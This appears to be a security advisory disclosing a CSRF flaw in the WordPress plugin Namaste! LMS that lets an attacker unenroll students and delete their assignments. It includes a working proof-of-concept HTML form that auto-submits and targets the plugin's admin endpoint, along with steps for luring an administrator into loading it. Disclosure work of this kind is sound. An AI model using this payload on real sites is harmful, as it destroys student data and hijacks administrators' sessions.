 # CSRF Vulnerability in WordPress Plugin "Namaste! LMS"

A **Cross-Site Request Forgery (CSRF)** vulnerability was identified in the WordPress plugin **Namaste! LMS**. This vulnerability allows an attacker to force an authenticated user with sufficient permissions to unenroll a student from a course. This action also leads to the deletion of all lesson assignments associated with that student, causing potential data loss and disruption.

## Vulnerability Overview

The CSRF vulnerability is located in the unenrollment functionality of the Namaste! LMS plugin. Through this flaw, an attacker could craft a malicious link or form that, when visited by an authenticated administrator or teacher, would trigger actions on behalf of the user. Specifically, the attacker can:

1. **Unenroll a student** from a course.
2. **Delete all lesson assignments** associated with that student, resulting in data loss.

The vulnerability can be exploited by embedding a crafted link or form on an external website or in an email, causing harm to the student's progress without their knowledge.

## Impact

1. Loss of student progress and assignments.
2. Potential frustration and disruption for students and administrators.
3. Compromised integrity of course data.

---

## Proof of Concept (PoC)

To demonstrate this vulnerability, follow the steps below:

1. **Log in** with a student account.
2. **Enroll in a course** and submit an assignment.
3. **Log in** to the WordPress site as an administrator or teacher.
4. Host the following CSRF payload, adjusting the `student_id` and `course_id` as needed.

```html
<html>
  <body>
    <form action="http://localhost/wordpress6.6.2/wp-admin/admin.php">
      <input type="hidden" name="page" value="namaste_students" />
      <input type="hidden" name="course_id" value="6" />
      <input type="hidden" name="status" value="" />
      <input type="hidden" name="cleanup" value="1" />
      <input type="hidden" name="student_id" value="2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/");
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Send the link to the administrator.
6. Upon loading the page, the CSRF payload will trigger the unenrollment of the targeted student from the specified course, resulting in the deletion of all their assignments.

## Expected vs. Actual Results

- **Expected Result**: The unenrollment action should require explicit user consent, with CSRF token validation to prevent unauthorized requests.
- **Actual Result**: The unenrollment action can be executed without the user's explicit consent, resulting in unauthorized unenrollment and assignment deletion.
